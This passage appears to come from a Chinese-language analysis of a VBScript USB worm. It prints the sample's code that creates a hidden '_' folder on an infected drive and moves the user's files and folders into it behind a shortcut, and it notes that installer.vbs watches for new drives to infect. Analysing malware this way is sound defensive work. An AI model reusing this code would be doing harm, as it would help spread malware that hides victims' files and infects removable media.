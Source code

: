 ##### 隐藏原文件

随后在U盘下创建名为"_"的文件夹，下一步大概就是复制文件了

```vb
DummyFolder = device & "\" & "_"
if (not objws.folderexists(DummyFolder)) then
    objws.CreateFolder DummyFolder	
    Set objDestFolder = objws.GetFolder(DummyFolder)
    objDestFolder.Attributes = objDestFolder.Attributes + 2 + 4
    End If
set check = objws.getFolder(device)
Call checker(check)
```

让我们转到checker函数，可以看到判断文件名，除了刚刚创建了快捷方式都要移动到下划线文件夹中

```vb
sub checker (path)
	set home = path.Files
	For Each file in home
		Select Case file.Name
			Case devicename & ".lnk"
				'nothings
			Case Else
				objws.MoveFile path & file.Name, DummyFolder & "\"
		End Select
		
	Next
	
	set home = path.SubFolders
	For Each home in home
		Select Case home
			Case path & "_"
				'nothings
			Case path & "WindowsServices"
				'nothings
			Case path & "System Volume Information"
				'nothings'
			Case Else
				objws. MoveFolder home, DummyFolder & "\"
		End Select
		
	Next
	
end sub
```

随后是移动根目录下的文件夹，判断了“_”文件夹和“WindowsServices”文件夹，也判断了Windows操作系统创建的"System Volume Information"文件夹，它们是不被移动的，除了这些文件夹外都要移动到下划线文件夹中

#### 小结

installer.vbs确保了helper.vbs的运行状态，并且持续检测新插入的U盘，准备感染新插入的U盘
